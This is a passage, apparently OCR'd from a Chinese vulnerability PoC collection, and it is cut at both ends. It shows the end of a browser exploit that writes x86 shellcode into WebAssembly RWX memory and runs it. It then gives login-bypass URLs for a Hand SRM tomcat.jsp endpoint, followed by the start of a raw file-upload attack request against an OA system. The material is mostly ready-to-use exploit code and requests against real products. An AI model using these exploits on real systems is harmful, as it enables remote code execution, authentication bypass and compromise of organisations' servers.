 let f = wasm_instance.exports.main;
let target_addr = addrof(wasm_instance)+0x40;
let rwx_mem = get_32(target_addr);
//alert("rwx_mem is"+rwx_mem.toString(16));
const shellcode = new Uint8Array([0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89,
0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30,0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14,
0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff,0xac, 0x3c, 0x61, 0x7c,
0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52,0x57, 0x8b,
0x52, 0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01,
0xd1,0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
0x8b, 0x34, 0x8b,0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7,
0x38, 0xe0, 0x75, 0xf6, 0x03,0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58,
0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b,0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01,
0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,0x24, 0x5b, 0x5b, 0x61,
0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb,0x8d, 0x5d,
0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00, 0x00, 0x50, 0x68, 0x31, 0x8b,
0x6f,0x87, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x68, 0xa6, 0x95, 0xbd,
0x9d, 0xff, 0xd5,0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb,
0x47, 0x13, 0x72, 0x6f, 0x6a,0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63,
0x00]);
for(let i=0;i<shellcode.length;i++){
write8(rwx_mem+i,shellcode[i]);
}
f();
</script>

### 11、汉得SRM tomcat.jsp 登录绕过漏洞 POC

/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1

然后访问后台：/main.screen

### 12、某联达oa 后台文件上传漏洞 POC

POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 10.10.10.1:8888
X-Requested-With: Ext.basex
Accept: text/html, application/xhtml+xml, image/jxr, /
Accept-Language: zh-Hans-CN,zh-Hans;q=0.5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: /
Origin: http://10.10.10.1
Referer: http://10.10.10.1:8888/Workflow/Workflow.aspx?configID=774d99d7-02bf-42ec-9e27-caeaa699f512&menuitemid=120743&frame=1&modulecode=GTP.Workflow.TaskCenterModule&tabID=40
Cookie: 
Connection: close
Content-Length: 421
